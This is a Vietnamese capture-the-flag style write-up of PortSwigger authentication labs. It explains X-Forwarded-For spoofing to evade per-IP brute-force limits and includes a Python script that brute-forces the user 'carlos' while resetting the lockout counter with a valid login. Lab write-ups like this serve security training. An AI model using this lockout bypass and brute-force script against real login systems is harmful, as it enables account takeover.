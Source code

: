 - Chúng ta có `username: albuquerque` giờ thì tìm nốt password là xong. Brute-force như các bài lab trên.
![alt text](img/image-10.png)

**Lưu ý**
Bài lab này có yếu tố liên quan đến `X-Forwarded-For`, một header HTTP dùng để xác định IP gốc của client khi request đi qua proxy hoặc VPN. Nếu server tin tưởng giá trị trong header này mà không kiểm tra, attacker có thể giả mạo IP để bypass hệ thống kiểm soát truy cập hoặc giới hạn brute-force theo IP. Ngoài ra bài này ta có thể sử dụng chế độ `Cluster boom` của Intruder để bypass mà không cần chú ý đến timming vì nếu thành công sẽ trả về mã `302` còn lại thì không.
___

### Lab: Broken brute-force protection, IP block
**Yêu cầu**: Lab có lỗ hổng do `logic flaw` trong cơ chế bảo vệ chống `password brute-force`. Nhiệm vụ: khai thác lỗ hổng để brute-force mật khẩu của `carlos`, sau đó đăng nhập vào tài khoản của hắn và hoàn thành lab. Đăng nhập với thông tin `wiener:peter` để kiểm tra cơ chế xác thực.

**Thực hiện**
- Bài này chỉ việc brute-force password của `carlos`. Vì thế bước đầu tiên là thử bypass cơ chế IP block của server. Ta thử thì cứ sau 5 lần nhập sai mật khẩu thì sẽ bị lock thời gian. Thử thêm `X-Forwarded-For` thì cũng không được.
- Hóa ra cơ chế bài này là sau 4 lần nhập sai, nếu lần thứ 5 nhập đúng thì ta lại tiếp tục nhập được 5 lần tiếp.
- Script python:

```
import requests
passwords = open('password.txt').read().splitlines()
url = "https://0aac00310383b56a8140118f00f60024.web-security-academy.net/login"
cookie = {'session': '6NFEpsqGyUG5JTaou8PLC5DNDLtZNaxJ'}
counter = 0
def sendRequest(url, password):
    print(f'[+] Trying password: {password}')
    carlosLoginData = {
        'username': 'carlos',
        'password': password
    }

    loginRequestText = requests.post(url, cookies=cookie, data=carlosLoginData).text

    if 'Incorrect password' not in loginRequestText:
        print(f'[+] Found password: {password}')
        return True
    else:
        return False

for password in passwords:
    if(counter == 2):
        tmp = requests.post(url, cookies=cookie, data={'username': 'wiener', 'password': 'peter'})
        counter = 0
        

    if(sendRequest(url, password)):
        break
    counter += 1
```
**Notes**
Bài lab này về ý tưởng làm thì đơn giản, tuy nhiên cần biết một chút code để có thể giải bài này dễ dàng hơn. Ngoài ra còn có thể dùng điều kiện `Race Conditions` để bypass cơ chế block IP này.
___
